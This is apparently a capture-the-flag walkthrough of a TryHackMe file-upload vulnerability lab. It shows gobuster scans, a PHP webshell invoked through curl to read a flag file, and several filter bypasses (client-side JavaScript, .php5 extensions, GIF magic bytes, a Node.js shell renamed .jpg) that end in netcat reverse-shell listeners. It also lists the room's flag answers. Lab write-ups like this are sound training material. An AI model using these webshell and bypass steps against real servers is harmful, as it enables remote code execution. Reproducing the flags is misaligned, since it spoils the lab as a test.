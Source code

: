 add : `10.10.138.214    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm`

to file `hosts` in `/etc`

navitigate -> overwrite.uploadvuls.thm -> overwrite image -> `THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}` 

scanning the dir : gobuster dir -u http://shell.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

edit  webshell.php -> upload to server -> execute some command (RCE)

curl "http://shell.uploadvulns.thm/resources/webshell.php?cmd=cat%20/var/www/flag.txt" -> `THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`

`Bypass Client-Side Filltering` :

gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -> `/images`

Burpsuite -> look at javascript : `client-side-filter.js` -> modify to upload a file `.php` or another reverse shell->  catch the request -> send reverse shell 

setup listener : `nc -lvnp 1234` -> read file flag.txt -> `THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`

`Bypass Server-Side Filltering : File Extension` :

scanning : gobuster dir -u http://annex.uploadvulns.thm/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

try upload file type : .jpg , .php, .jpg.php -> just .jpg is success

upload a reverse shell -> most block .php and .phtml -> modify the file reverse-shell -> .php5 or another -> upload to server.

listener : `nc -lvnp 1234 ` -> `THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}`

`Bypass Server-Side Filltering : Magic Number` :
scanning : ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://magic.uploadvulns.thm/FUZZ -> `graphics` directory

the web allow GIFs file only -> add `GIF8` to the top of the reverse shell -> make this file to GIF type 
upload to the server -> make a listener : `nc -lvnp 1234` ( after open file on the web) -> `THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}`

`Last challenge`

scanning the dir : gobuster dir -u http://jewel.uploadvulns.thm/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t50
 -> : 
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Content              (Status: 301) [Size: 181] [--> /Content/]

using `Wappalyzer` -> identify the web is using `Node.js` languege --> download Node.js reverse shell

trying upload some file on the web -> accept file type `.jpg` -> modify the `shell.js` to `shell.jpg` :

Using Burp-Suite to remove the Client-Side Filter -> upload the `shell.jpg` ( need remove `^js$` to catch the javescripts)

scan the upload (.jpg) : gobuster dir -u http://jewel.uploadvulns.thm/content  -w /home/kali/Downloads/tryhackme/Upload_Vulnerabilities/UploadVulnWordlist.txt -x jpg -t64
->
/ABH.jpg              (Status: 200) [Size: 705442]
/JJB.jpg              (Status: 200) [Size: 83279]
/KYL.jpg              (Status: 200) [Size: 383]
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]

take a look all of them -> the `/KYL.jpg` is the the shell which uploaded to the server ( can `change` the name each time scanning ) 

move to the `/admin` and run that -> (setup the netcat listener first : `nc -lvnp 1234`) 

waiting on the listener channel setup -> `THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`